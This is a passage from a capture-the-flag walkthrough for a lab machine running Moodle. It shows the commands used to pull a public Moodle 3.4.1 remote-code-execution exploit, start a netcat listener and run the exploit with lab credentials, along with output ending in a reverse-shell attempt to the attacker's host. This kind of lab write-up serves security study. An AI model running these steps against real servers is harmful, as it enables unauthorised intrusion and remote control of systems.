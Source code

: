 Let's search for known exploit :

![Searchsploit moodle](/assets/imgs/teacher/searchsploit.PNG)

## Exploit

------

Since I couldn't found the install version, I tried the php RCE :

```
searchsploit -m php/webapps/46551.php
```

Start a nc listener :

```
nc -lvp 1234
```

Then launch the exploit with the good parameters :

```
php 46551.php url=http://10.10.10.153/moodle/ user=giovanni pass='Th4C00lTheacha#' ip=10.10.14.4 port=1234 course=2

*------------------------------*
* Noodle [Moodle RCE] (v3.4.1) *
*------------------------------*

[!] Make sure you have a listener
[!] at 10.10.14.4:1234

[*] Logging in as user giovanni with password Th4C00lTheacha# 
[+] Successful Login
[>] Moodle Session 83n6n9g0q1q2e499ag2588mqq3 
[>] Moodle Key bZKU9HH0wV 
[*] Loading Course ID 2 
[+] Successfully Loaded Course
[*] Enable Editing
[+] Successfully Enabled Course Editing
[*] Adding Quiz
[+] Successfully Added Quiz
[*] Configuring New Quiz
[+] Successfully Configured Quiz
[*] Loading Edit Quiz Page 
[+] Successfully Loaded Edit Quiz Page
[*] Adding Calculated Question 
[+] Successfully Added Calculation Question
[*] Adding Evil Question 
[+] Successfully Created Evil Question
[*] Sending Exploit

[>] You should receive a reverse shell attempt from the target at 10.10.14.4 on port 1234 
[>] If connection was successful this program will wait here until you close the connection.
[>] You should be able to Ctrl+C and retain the connection through netcat.
```
